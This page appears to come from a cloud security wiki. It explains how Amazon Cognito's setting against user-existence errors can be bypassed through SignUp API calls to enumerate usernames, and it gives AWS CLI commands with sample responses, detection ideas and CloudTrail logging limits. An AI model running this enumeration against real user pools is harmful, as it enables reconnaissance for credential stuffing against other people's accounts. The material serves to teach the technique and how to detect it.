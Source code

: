 ```yaml
---
author_name: Nick Frichette
title: Bypass Cognito Account Enumeration Controls
description: Leverage a flaw in Cognito's API to enumerate accounts in User Pools.
---
```


<div class="grid cards" markdown>
-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    AWS Docs: [Managing user existence error responses](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html)
</div>

Amazon [Cognito](https://aws.amazon.com/cognito/) is a popular “sign-in as a service” offering from AWS. It allows developers to push the responsibility of developing authentication, sign up, and secure credential storage to AWS so they can instead focus on building their app.

By default, Cognito will set a configuration called `Prevent user existence errors`. This is designed to prevent adversaries from [enumerating accounts](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/03-Identity_Management_Testing/04-Testing_for_Account_Enumeration_and_Guessable_User_Account) and using that information for further attacks, such as [credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing).

While this is useful in theory, and a good default to have, it can be bypassed via [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls for usernames. This bypass was originally reported via a GitHub [issue](https://github.com/aws-amplify/amplify-js/issues/6238) in July 2020 and Cognito is still vulnerable as of early 2024.

!!! Note
	Cognito user pools can be configured to prevent disclosing user existence errors via [alias attributes](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html#cognito-user-pool-managing-errors-prevent-userexistence-errors) for email addresses and phone numbers, but not usernames.   

## Example Responses

To demonstrate the responses depending on the configuration and if a user does/does not exist, here are some examples. The `admin` user exists in the user pool and is the account we will be trying to enumerate.

!!! Note
	The `client-id` value for a Cognito User Pool is not secret and is accessible from the JavaScript served by the client. 

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (UserNotFoundException) when calling the InitiateAuth operation: User does not exist.
```

As you can see, an adversary can use the `UserNotFoundException` and `NotAuthorizedException` to enumerate whether an account does or does not exist. By enabling the `Prevent user existence errors` configuration, defenders can successfully mitigate these types of attacks. However we will show how it can be bypassed.

## cognito-idp:SignUp

The `Prevent user existence errors` configuration appears to only impact the `initiate-auth` flow. It does not impact [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html). Because of this we can use this API call to enumerate if a user does or does not exist. Please see the following examples:

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username admin \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"

An error occurred (UsernameExistsException) when calling the SignUp operation: User already exists
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username notreal \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"
{
	"UserConfirmed": false,
	"CodeDeliveryDetails": {
    	"Destination": "b***@b***",
    	"DeliveryMedium": "EMAIL",
    	"AttributeName": "email"
	},
	"UserSub": "a20…"
}
```

## Detection Opportunities

If an adversary is using this technique at scale to identify what accounts exist in your user pool, you can attempt to detect this behavior by alerting on a sudden increase in `Unconfirmed` user accounts.

![User Pool Identities](../../images/aws/enumeration/bypass_cognito_user_enumeration_controls/user_pool_identities.png)

Depending on the configuration of your user pool, an adversary could attempt to get around this by using a real email address to confirm the user name.

### CloudTrail and CloudWatch Limitations

If you attempt to build detections around this using CloudTrail or CloudWatch, you will run into challenges. This is because a significant portion of useful telemetry (basically all of it) is omitted in these logs. For example, the `userIdentity` who made the API call is `Anonymous`

```json
{
	"eventVersion": "1.08",
	"userIdentity": {
    	"type": "Unknown",
    	"principalId": "Anonymous"
}
```

And the `username` and `userAttributes` are hidden:

```json
"requestParameters": {
    "clientId": "719...",
    "username": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "password": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "userAttributes": "HIDDEN_DUE_TO_SECURITY_REASONS"
}
```

For this reason, you can use CloudTrail or CloudWatch to track the number of [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls, and their associated `sourceIPAddress`, but not access their details. 
